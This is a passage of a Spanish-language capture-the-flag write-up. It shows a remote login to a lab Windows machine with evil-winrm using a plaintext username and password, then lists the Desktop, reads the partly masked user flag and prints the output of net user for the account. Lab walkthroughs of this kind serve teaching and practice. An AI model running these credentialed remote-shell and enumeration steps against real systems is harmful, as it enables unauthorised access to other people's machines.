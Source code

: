 Nos conectamos como el usuario `s.smith` usando `evil-winrm.rb`
```bash
# evil-winrm.rb -i 10.10.10.182 -u s.smith -p sT333ve2                                                                                                                                                                                1 ⚙

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

Procedemos a enumerar el sistema:

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> dir


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/18/2022   1:00 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk


*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
44ee5ac9a106aa0c5aa8488xxxxxxxxxx
```

Procedemos a ver a los grupos que pertenece el usuario `s.smith`
```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment '
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM

Logon hours allowed          All

# Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
```